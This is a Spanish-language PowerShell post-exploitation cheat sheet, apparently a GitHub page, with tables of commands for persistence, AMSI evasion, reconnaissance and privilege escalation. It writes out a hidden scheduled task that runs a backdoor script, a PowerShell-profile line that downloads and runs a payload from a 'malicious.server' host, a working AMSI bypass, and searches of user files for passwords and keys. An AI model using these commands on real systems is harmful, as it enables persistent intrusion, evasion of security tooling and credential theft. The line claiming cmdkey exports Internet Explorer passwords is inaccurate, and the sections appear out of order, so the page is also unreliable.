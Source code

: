 ### 🧬 Persistencia

| **Comando**                                                                                                      | **Descripción**                                                         |
| ---------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------- |
| `schtasks /create /sc minute /mo 5 /tn "Updater" /tr "powershell.exe -WindowStyle Hidden -File C:\backdoor.ps1"` | Crea una tarea programada persistente cada 5 min (oculta).              |
| `Add-Content $PROFILE 'IEX (New-Object Net.WebClient).DownloadString("http://malicious.server/payload.ps1")'`    | Agrega backdoor persistente al perfil de PowerShell del usuario actual. |

***

### 🧱 Técnicas de Evasión (Bypass AMSI)

#### 🛡️ Bypass AMSI en tiempo de ejecución

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils'). GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Evita que AMSI intercepte scripts sospechosos.

### 🛠️ Comandos Prácticos para Dominar PowerShell

Una recopilación de comandos avanzados y prácticos para recolección de información, post-explotación, evasión, persistencia y automatización con PowerShell.

***

### 📡 Recolección de Información Avanzada

| **Comando**                                                                        | **Descripción**                               |
| ---------------------------------------------------------------------------------- | --------------------------------------------- |
| `Get-NetIPConfiguration`                                                           | Muestra la configuración de red actual.       |
| `Get-ADUser -Filter * \| Select-Object Name, SamAccountName`                       | Lista todos los usuarios del dominio.         |
| `Get-Process \| Sort-Object CPU -Descending \| Select-Object -First 10`            | Muestra los 10 procesos que más consumen CPU. |
| `Select-String -Path "C:\Users\*\Documents\*.txt" -Pattern "password\|login\|key"` | Busca palabras clave en archivos de texto.    |

***

### 🛡️ Post-Explotación y Escalada

| **Comando**                                                                                                                       | **Descripción**                                               |
| --------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------- |
| `Get-WmiObject win32_service \| Where-Object { $_.StartName -notlike "NT AUTHORITY\*" -and $_.StartName -notlike "LocalSystem" }` | Lista servicios potencialmente vulnerables a escalada.        |
| `Get-NetTCPConnection \| Select-Object LocalAddress,RemoteAddress,RemotePort,State`                                               | Enumera todas las conexiones de red activas.                  |
| `cmdkey /list`                                                                                                                    | Exporta todas las contraseñas guardadas en Internet Explorer. |

***
